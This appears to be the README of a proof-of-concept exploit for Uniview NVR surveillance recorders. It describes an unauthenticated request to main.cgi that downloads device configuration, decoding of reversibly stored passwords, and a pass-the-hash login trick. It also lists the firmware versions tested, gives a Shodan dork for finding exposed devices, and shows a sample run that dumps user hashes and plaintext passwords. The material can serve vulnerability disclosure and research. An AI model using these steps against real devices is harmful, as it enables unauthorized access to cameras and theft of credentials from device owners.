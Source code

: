 # Uniview NVR remote passwords disclosure

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
- NVR304-16E - Software Version B3118P26C00510
- NVR301-08-P8 - Software Version B3218P26C00512
- version B3220P11
- version B3219P22

 Other versions may also be affected

> Shodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

	root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5
	Uniview NVR remote passwords disclosure!
	Author: B1t0n
	
	[+] Getting model name and software version...
		Model: NVR301-08-P8
 		Software Version: B3218P26C00512

 	[+] Getting configuration file...
 	[+] Number of users found: 4

 	[+] Extracting users' hashes and decoding reversible strings:

 	User 	|	 Hash 	|	 Password
 	_________________________________________________
 	admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 	default 	|	 	|	||||||||||||||||||||
 	HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 	test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  	*Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
